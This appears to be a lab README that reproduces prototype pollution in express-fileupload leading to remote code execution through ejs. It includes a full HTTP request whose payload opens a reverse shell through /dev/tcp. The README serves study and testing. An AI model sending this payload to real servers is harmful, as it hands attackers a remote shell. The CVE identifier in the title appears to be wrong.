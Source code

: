 # NodeJS expresss-fileupload protype pollution vulnerability（CVE-2022-7699）

[中文版本(Chinese version)](README.zh-cn.md)

## Vulnerability principle

`express-fileupload` is a express middleware for uploading files. In the version prior `1.1.7-alpha.4`, it has a protype pollution vulnerability. And if also the website use `ejs(<=3.1.6)` which is a template engine, the `outputFunctionName` parameter can be polluted by constructing a call chain, thereby causing remote code execution.

References：

- https://blog.p6.is/Real-World-JS-1/
- https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html

## Vulnerability Environment

Execute the following commands to start:

```bash
docker-compose build
docker-compose up -d
```

## Vulnerability Reproduce

After the server is started, you can visit the page at `http://your-ip:3000/`

![img](1.png)

Set a listener firstly, then send the following package which can reverse shell.

```text
POST /upload HTTP/1.1
Host: your-ip:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Content-Length: 306
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarypDa6OHB96f0GI9ze

------WebKitFormBoundarypDa6OHB96f0GI9ze
Content-Disposition: form-data; name="__proto__.outputFunctionName"

x;process.mainModule.require('child_process').exec('bash -c "bash -i &> /dev/tcp/your-ip/4444 0>&1"');delete Object.prototype['outputFunctionName'];x
------WebKitFormBoundarypDa6OHB96f0GI9ze--
```

PS：Afer send the package, the prototype of the whole program will be polluted. It maybe affect the normal access to the website unless reboot. So we need to remove polluted protype.
